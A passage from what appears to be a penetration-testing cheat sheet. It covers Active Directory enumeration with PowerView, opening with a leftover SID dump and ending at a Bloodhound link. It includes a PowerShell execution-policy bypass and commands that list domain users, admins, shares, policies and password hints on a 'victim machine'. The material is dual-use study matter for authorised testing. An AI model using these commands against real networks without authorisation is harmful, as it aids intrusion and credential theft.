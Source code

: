     Sid:{
        Revision: {1}
        SubAuthorityCount: {5}

        IdentifierAuthority:{
            Value: {b'\x00\x00\x00\x00\x00\x05'}
        }
        SubLen: {20}
        SubAuthority: {b'\x15\x00\x00\x00bY\xecY\x80\xf3\xbb%\xb2r\x8d\x07\x07\x02\x00\x00'}
    }
}

```

## Domain Enumeration: 
### Powerview: 
Download on to Windows Victim Machine:
1. https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

From CMD:
```
powershell -ep bypass                 # -ep   ExecutionPolicy
. .\PowerView.ps1
```
this will not show any output, you just have to have faith it is running. or try the follwoing commands.
```
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy                                  # shows the policies
(Get-DomainPolicy)."system access"                # shows the password policy for easier password cracking
Get-NetUser                                       # can pull lots of info depending on size of domain
Get-NetUser | select cn                           # will only pull usernames
Get-NetUser | select samaccountname               # will only pull usernames
Get-NetUser | select description                  # will get descriptions that may have Passwords in them
Get-UserProperty -Properties pwdlastset           # tells when each usesr password was last reset (good if you have pwnd account info)
Get-UserProperty -Properties logoncount           # 0 logons is suspicious and maybe the signs of a honeypot account
Get-UserProperty -Properties badpwdcount          # can show signs of an account that is being brute forced
Get-NetComputer                                   # will list all the computers on the domain
Get-NetComputer -FullData                         # when you want a Tsunami of information 
Get-NetComputer -FullData | select <catagory>     # Example Usage Below
Get-NetComputer -FullData | select OperatinSystem # shows all the Operating Systems on the Domain
Get-NetGroup                                      # list groups
Get-NetGroup -GroupName "Domain Admins"           # will list domain admins group
Get-NetGroup -GroupName *admin*                   # will ist all administrator groups on the domain
Get-NetGroupMember -GroupName "Domain Admins"     # Will list all administrators on the domain
Invoke-ShareFinder                                # shows all files and folders being shared on the network
Get-NetGPO                                        # shows all the Group Policies like disabled SMB signing or disabled defender
Get-NetGPO | select displayname, whenchanged
```
References:
1. https://gist.githubusercontent.com/HarmJ0y/184f9822b195c52dd50c379ed3117993/raw/e5e30c942adb2347917563ef0dafa7054882535a/PowerView-3.0-tricks.ps1

### Bloodhound: 
1. https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/
```